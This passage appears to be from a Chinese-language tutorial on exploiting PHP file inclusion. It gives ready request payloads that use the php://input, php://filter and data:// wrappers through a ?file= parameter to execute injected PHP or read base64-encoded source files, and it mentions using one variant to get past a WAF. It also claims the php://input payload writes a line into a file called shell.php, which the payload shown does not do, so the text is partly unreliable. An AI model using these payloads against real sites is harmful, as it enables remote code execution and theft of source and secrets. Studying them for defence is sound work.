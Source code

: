 #### 利用php流input：

利用条件：

```
allow_url_include = On。

对allow_url_fopen不做要求。
```

构造:

```php
index.php
?file=php://input

POST:
<? phpinfo();?>
```

结果将在index.php所在文件下的文件shell.php内增加<?php phpinfo();?>一句话

#### 利用php流filter：

```php
?file=php://filter/convert.base64-encode/resource=index.php
```

通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。

其他姿势：

```php
index.php?file=php://filter/convert.base64-encode/resource=index.php
```

效果跟前面一样，少了read等关键字。在绕过一些waf时也许有用。

#### 利用data URIs：

利用条件：

```php
1、php版本大于等于php5.2
2、allow_url_fopen = On
3、allow_url_include = On
```

利用data://伪协议进行代码执行的思路原理和php://是类似的，都是利用了PHP中的流的概念，将原本的include的文件流重定向到了用户可控制的输入流中

```php
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain;base64,base64编码的payload
index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
加号+的url编码为%2b，PD9waHAgcGhwaW5mbygpOz8+的base64解码为：<?php phpinfo();?>
```

(需要allow_url_include=On)

#### glob://伪协议
